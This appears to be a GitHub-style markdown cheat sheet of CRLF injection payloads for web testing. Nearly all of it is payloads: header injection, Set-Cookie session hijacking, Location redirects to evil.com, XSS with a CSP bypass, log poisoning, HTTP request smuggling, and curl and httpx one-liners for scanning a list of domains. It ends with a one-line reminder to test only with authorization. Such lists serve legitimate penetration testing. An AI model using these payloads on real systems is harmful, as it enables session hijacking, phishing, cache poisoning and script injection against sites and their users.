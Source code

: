 **CRLF Injection Payloads**

A collection of payloads to test for CRLF (Carriage Return Line Feed) injection vulnerabilities, including HTTP header injection, response splitting, and XSS.

**Basic CRLF Payloads**
```plaintext
%0D%0A        # Standard CRLF
%0A           # LF only (Unix systems)
%0D           # CR only (rare)
%23%0D%0A     # URL-encoded # + CRLF (comment headers)
%250D%250A    # Double-encoded CRLF
```

**Header Injection Payloads**
```
# Fake Header
test%0D%0AEvil-Header: Hacked By Loca

# Set-Cookie Hijacking
%0D%0ASet-Cookie: sessionid=evil;%0D%0A

# Redirect
%0D%0ALocation: http://evil.com%0D%0A

# Cache Poisoning
%0D%0ACache-Control: no-store%0D%0A
```
**XSS via CRLF in Body**
```
# Basic XSS
%0D%0A%0D%0A<script>alert(Loca Martin)</script>

# CSP Bypass
%0D%0AContent-Security-Policy: default-src 'unsafe-inline'%0D%0A%0D%0A<script>alert(1)</script>
```
**Path/URL-Based Payloads**
```
# Path Injection**
http://example.com/%0D%0AEvil-Header: Hacked By Loca Martin

# Parameter Splitting
?param=test%0D%0AEvil-Header: Hacked By Loca Martin
```

**Advanced Bypass Techniques**
```
# Null Byte
%00%0D%0AEvil-Header: Hacked By Loca Martin

# UTF-8 Encoding
%E5%98%8A      # Overlong UTF-8 %0A

# Tab Separator
%0D%0AEvil-Header:%09Hacked By Loca Martin
```
***Log Poisoning Payloads**
```
# Fake User-Agent
User-Agent: Mozilla%0D%0AEvil-Log-Entry: Hacked By Loca Martin

# Fake Referer
Referer: http://example.com%0D%0AEvil-Log-Entry: Hacked By Loca Martin
```

**HTTP Request Smuggling**
```
GET / HTTP/1.1%0D%0AHost: example.com%0D%0A%0D%0AGET /evil HTTP/1.1
```
**Open Redirect + CRLF**
```
/redirect?url=http://evil.com%0D%0AEvil-Header: Hacked By Loca Martin
```
**Cookie Injection**
```
Cookie: legit=value%0D%0ASet-Cookie: evil=1
```
**Edge Cases**
```
# Mixed Encoding
%0d%0a        # Lowercase

# JSON/XML
{"input":"test\r\nEvil-Header: Hacked By Loca Martin"}
```

**Tools to Test These Payloads**

- Burp Suite: Intercept/modify requests

- curl:
```bash
curl -v -H "User-Agent: Payload%0D%0AEvil-Header: 1" http://example.com
```
- Browser DevTools: Inspect raw responses
- httpx
```bash
cat domains.txt | httpx -sc -H "%0D%0AEvil-Header: Hacked By Loca" -mr "Hacked By Loca"
```

**Impactful Scenarios**

    Session hijacking via Set-Cookie

    Phishing with fake Location headers

    XSS via CSP bypass

    Cache poisoning attacks

**Testing Tips**
- Test payloads in multiple contexts:
   - Headers (User-Agent, Referer, Cookies)
   - URL parameters/paths
   - POST data
 - Validate server behavior:
   - Input reflection in headers/body
   - CRLF filtering/encoding
   - Multi-layer encoding handling

⚠️ Always test responsibly with proper authorization.

🔒 Do not use these payloads maliciously.